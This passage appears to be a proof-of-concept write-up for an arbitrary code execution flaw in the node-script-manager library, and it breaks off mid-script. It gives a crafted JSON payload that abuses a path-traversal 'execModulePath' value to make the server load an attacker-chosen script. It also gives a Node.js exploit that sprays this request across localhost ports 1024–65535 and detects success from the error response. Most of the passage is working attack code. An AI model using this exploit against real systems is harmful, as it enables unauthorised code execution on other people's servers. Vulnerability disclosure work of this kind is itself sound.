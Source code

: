 pwn.js
```
    console.log('PWNED')
```
- create file exploit.js

main idea of the exploit is to request all ports in order to hit the one which serves the server and send crafted request to it
```
    {"options": {"rid": 12, "execModulePath": "./../../../pwn.js"}}
```
where './../../../pwn.js' is the path to script we want to execute

algorithm is simple:

1. send HTTP request (from example above) to all ports within 1024 - 65535  range
2. if there is specific response with the error message that contains:
```
    require(...) is not a function
```
 it means that we found our server and code was executed

exploit.js
```
    const request = require('request')
    const host = 'localhost'
    let stopEnum = false
    
    /*
     * Sends crafted HTTP request to specific port
     * in order to check if it is the app we are looking for and exploit it
     * 
     * @param {number} port - port number
     * @returns {Promise}
     */
    async function sendRequestToPort(port) {
      return new Promise((resolve, reject) => {
        request.post(
          {
            url: `http://${host}:${port}`,
            // sending json with path to js file we want to execute
            // https://github.com/pofider/node-script-manager/blob/master/lib/worker-servers.js#L268
            json: {"options": {"rid": 12, "execModulePath": "./../../../pwn.js"}}
          },
          (err, req, body) => {
            process.stdout.write(`requested http://${host}:${port}\r`)
            // if there is specific response with the error message it means that we found our server
            // and code was executed
            if (body && body.error && body.error.message === 'require(...) is not a function') {
              console.log(`port is ${port}`)
              stopEnum = true
            }
            resolve()
          }
        )
      })
    }
    
    (async function main(){
      //ports range
      const start = 1024
      const finish = 65535
      
      // split ports range into chunks of 1000
      let first = start
```